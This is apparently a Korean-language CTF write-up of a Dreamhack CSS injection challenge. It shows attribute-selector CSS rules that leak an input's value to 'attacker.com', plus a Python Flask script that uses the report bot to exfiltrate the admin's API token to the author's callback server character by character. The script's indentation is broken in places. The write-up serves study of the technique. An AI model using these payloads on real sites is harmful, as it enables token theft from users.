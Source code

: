 ```yaml
---
title: CSS Injection
author: heogi
date: 2024-11-18
categories:
  - CTF
  - Dreamhack
  - Web
tags:
  - CSS
  - CSS-Injection
  - web
comments: true
---
```

# CSS Injection

## 1. Analysis
memo를 작성할 수 있는 서비스를 제공하는 페이지이다.
![](../assets/img/Pasted%20image%2020241118003515.png)
문제에서 제공하는 코드를 살펴보면 `/report` 를 통해 `admin` 이 사용자가 입력한 특정 URL에 접근하도록 할 수 있는 기능이있다.
또한 `/mypage` 에는 `token`  값이 존재하며 해당 값을 `API-KEY` header에 담아 보내면 `/api/memo` 를 통해 작성한 memo를 확인할 수 있다.

또한 `base.html` 의 코드 중 아래 `color` 파라미터를 통해 사용자의 값을 입력할 수 있으며, 이를 통해 CSS Injection을 트리거 할 수 있다.
```html
<style>
body{
	background-color: {{ color }};
}
</style>
```
![](../assets/img/Pasted%20image%2020241119003348.png)
## 2. Attack
공격을 위한 시나리오는 아래와 같다.
```text
1. color 파라미터를 통해 CSS Injection을 수행한다.
2. Admin의 API-Token 값을 탈취한다.
3. /api/memo를 호출하여 Flag를 확인한다.
```
먼저 color 파라미터를 통해 CSS Injection 공격을 진행, Admin의 API-Token을 탈취해야한다.
이를 위해 CSS Injection Technique 중 `Sequential Import Chaining` 사용한다.

### 2-1. Sequential Import Chaining
CSS의 `Attribute Selectors` 기능을 통해 특정 attribute를 가진 object의 value를 탈취하는 기법이다.
`Attribute Selectors` 는 특정 Attribute를 가진 Object의 CSS Style을 지정하는 기능이다.

input Object의 name이 password 이고 해당 Object의 value를 탈취하고 싶다면
아래처럼 `^=` 특성 선택자를 통하여 value 값에 접미사로 설정한 값이 포함되어있다면 Attacker의 URL로 요청을 보내도록 할 수 있다.
만약 value 가 `beast` 라면 `value^=b` 에서 요청을 보내게되며, 다시 `value^=be` 에서 요청을 보내게 된다.

```html
input[name=password][value^=a]{
    background: url('https://attacker.com/a');
}
input[name=password][value^=b]{
    background: url('https://attacker.com/b');
}
/* ... */
input[name=password][value^=9]{
    background: url('https://attacker.com/9');   
}
```

이를 코드로 구현하면 아래와 같다.

```python
import requests
from flask import Flask, request

app = Flask(__name__)

flag = ""
stop = False

def attack():
	global stop
	global flag
	
	url = "http://host3.dreamhack.games:14737/report"
	headers = {"session":"eyJ1aWQiOjIsInVzZXJuYW1lIjoidGVzdCJ9.Z0sWuQ.wJ757vrJQyofNeQ6TyhUOoRob_g"}

	print("Start Attack")
	
	for x in range(0,8):
		for i in range(ord('a'), ord('z') + 1):
			if stop == True:	
			stop = False	
			break
	
		prefix = flag + chr(i)
		print("sending..."+prefix)
		payload = "mypage?color=green; }} input[id=InputApitoken][value^=\{0\}] {{ background:url(http://ctf.heogi.com:5000/?c=\{0\})".format(prefix)
		data = {"path" : payload}
		requests.post(url, headers=headers, data=data)
	
	print("End Attack")

@app.route("/")
def index():
	global flag
	global stop
	
	if request.args.get('c'):
		c = request.args.get('c')
		flag = c
		print(flag)
		stop = True
	else:
		attack()
return flag

if __name__ == "__main__":
	app.run(host="0.0.0.0",debug=True,port=5000)
```
![](../assets/img/Pasted%20image%2020241130230050.png)
획득한 API-Token으로 /api/memo를 호출하면 FLAG를 획득할 수 있다.
![](../assets/img/Pasted%20image%2020241130230500.png)